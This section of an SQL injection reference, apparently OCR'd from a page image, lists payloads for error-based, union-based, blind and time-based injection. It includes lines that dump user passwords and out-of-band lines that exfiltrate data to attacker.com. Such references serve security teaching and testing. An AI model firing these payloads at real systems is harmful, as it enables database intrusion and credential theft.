 ### Types of SQL Injection

#### 1. In-Band SQLi (Classic)

**Error-Based SQLi**
```sql
-- Trigger error to reveal information
' OR 1=1--
' UNION SELECT NULL--
' AND 1=CONVERT(int, (SELECT @@version))--
```

**Union-Based SQLi**
```sql
-- Combine results from multiple queries
' UNION SELECT NULL, NULL, NULL--
' UNION SELECT username, password, email FROM users--
' UNION SELECT table_name, NULL, NULL FROM information_schema.tables--
```

#### 2. Blind SQLi

**Boolean-Based Blind SQLi**
```sql
-- True condition
' AND '1'='1
' AND (SELECT COUNT(*) FROM users) > 0--

-- False condition
' AND '1'='2
' AND (SELECT COUNT(*) FROM users) < 0--
```

**Time-Based Blind SQLi**
```sql
-- MySQL
' AND SLEEP(5)--
' OR IF(1=1, SLEEP(5), 0)--

-- PostgreSQL
'; SELECT pg_sleep(5)--

-- MSSQL
'; WAITFOR DELAY '00:00:05'--

-- Oracle
' AND DBMS_LOCK.SLEEP(5)--
```

#### 3. Out-of-Band SQLi

```sql
-- DNS exfiltration (MSSQL)
'; EXEC master..xp_dirtree '\\attacker.com\share'--

-- HTTP exfiltration (Oracle)
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://attacker.com/"> %remote;]>'),'/l') FROM dual--
```
